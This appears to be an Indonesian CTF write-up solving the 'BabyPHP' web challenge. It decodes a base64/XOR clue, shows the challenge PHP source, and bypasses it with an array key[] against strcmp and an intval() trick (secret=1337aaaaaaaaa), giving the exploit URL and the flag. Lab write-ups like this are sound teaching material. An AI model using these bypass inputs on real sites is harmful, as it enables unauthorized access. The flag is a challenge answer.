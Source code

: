 # BabyPHP
**Category:** web <br>
**Point:** 300

> Do you know about PhP?
> 
> Challenge URL- [Link Here](http://sec-army.ml/babyphp/babyphp.php)
> 
> Author: kal1ya

---

Pertama, kita perlu _decode_ cipher menggunakan base64.
```console
┌─[haz@haz]─[babyphp_COMPLETE]
└──╼ $echo Jycuam9pbihjaHIob3JkKGkpXjkwKSAgZm9yIGkgaW4gJyk/ND56PT8ueig/Ky8/KS56LykzND16LDM/LSk1Lyg5P3oqOyg7Nz8uPygnKQ== | base64 -d
''.join(chr(ord(i)^90)  for i in ')?4>z=?.z(?+/?).z/)34=z,3?-)5/(9?z*;(;7?.?(')
```

Hasil dari decoding adalah kode dalam bahasa _python_, untuk mengetahuinya kita jalankan dengan perintah `python`.
```console
┌─[haz@haz]─[babyphp_COMPLETE]
└──╼ $python -c "print ''.join(chr(ord(i)^90)  for i in ')?4>z=?.z(?+/?).z/)34=z,3?-)5/(9?z*;(;7?.?(')"
send get request using viewsource parameter
```

Dari sini kita diberi sebuah clue untuk mengakses website tadi dengan menggunakan parameter `viewsource`. Kita coba akses https://sec-army.ml/babyphp/babyphp.php?viewsource=true.

```php
<?php
 
include('flag_bb.php');
 
$msg = "Jycuam9pbihjaHIob3JkKGkpXjkwKSAgZm9yIGkgaW4gJyk/ND56PT8ueig/Ky8/KS56LykzND16LDM/LSk1Lyg5P3oqOyg7Nz8uPygnKQ==";

if(!isset($_GET['viewsource']))
{
    die($msg);
}
 
echo "<h2>s3cur3 PHP</h2>";
echo "Hack your way to the flag (^_^)<br><br>";

highlight_file(__FILE__);
 
if(!isset($_GET['key']))
{
    die("Bye bye hacker");
}
 
if((strcmp($_GET['key'],$key)))
{
    die("Gimme key to the door first!!!");
}
 
echo "Thanks for the key :P<br><br>";
 
if(!isset($_GET['secret']))
{
    die("Bye bye hacker");
}
 
$_p = 1337;
$_l = 13;
 
$l = strlen($_GET['secret']);
$_i = intval($_GET['secret']);
 
if($l !== $_l || $_i !== $_p)
{
    die("System Failure Detected...");
}
 
echo "<h3>Yaaay...you have breached the most s3cur3 PHP code</h3>";
echo "<h3>Here is your flag: ⚑ </h3>";
 
echo "<!--$flag-->";
 
?>
```

Disini, kita mulai melakukan eksploitasi pada input yang ada.

---

Parameter kedua adalah `key`, yang dimana parameter ini dicocokkan dengan menggunakan fungsi _prebuilt_ PHP yaitu `strcmp` yang dicocokkan dengan variabel `$key`. Kita bahkan tidak tahu apa isi di dalam variabel `$key`.

Kita bisa bypass parameter `key` dari kelemahan fungsi `strcmp`. Jika saya memasukkan nilai array kosong pada `key` maka nilainya akan `NULL`. Pada PHP, pengecekan array kosong akan bernilai **TRUE**.

Kita akses menggunakan parameter berikut :
```
https://sec-army.ml/babyphp/babyphp.php?viewsource=true&key[]=yes
```

Pesan menunjukkan `Thanks for the key :P` yang artinya parameter `key` berhasil di-_bypass_.

---

Parameter ketiga adalah `secret`.

```php
$_p = 1337;
$_l = 13;
 
$l = strlen($_GET['secret']);
$_i = intval($_GET['secret']);
 
if($l !== $_l || $_i !== $_p)
{
    die("System Failure Detected...");
}
```

Program melakukan pengecekan panjang string dari `secret` dengan angka 13, kemudian mengecek nilai integer dari `secret` dengan angka 1337. Setelah memakan waktu, ternyata saya sadar bahwa fungsi `intval()` bisa dilakukan _bypass_. Perhatikan percobaan saya berikut :

![](./ss01.png)

Dari percobaan ini kita tahu bahwa fungsi `intval()` mengambil nilai integer dari bagian depan string saja, jika setelahnya ada karakter bukan angka maka akan diabaikan.

Kelemahan ini bisa kita pakai untuk membuat panjang string (nilai `$l`) menjadi 13 karakter dan nilai integernya tetap 1337.

```
secret = "1337aaaaaaaaa"
```

Kita gabungkan dengan parameter sebelumnya
```
https://sec-army.ml/babyphp/babyphp.php?viewsource=true&key[]=yes&secret=1337aaaaaaaaa
```

Dannn ternyata berhasil. Untuk melihat flag-nya bisa dengan view-source.

![](./ss02.png)

python exploit : [exploit.py](./exploit.py) <br>
shell exploit : [exploit.sh](./exploit.sh)


flag : `secarmy{php_15_3xpl017abl3_i5nt'17!!}`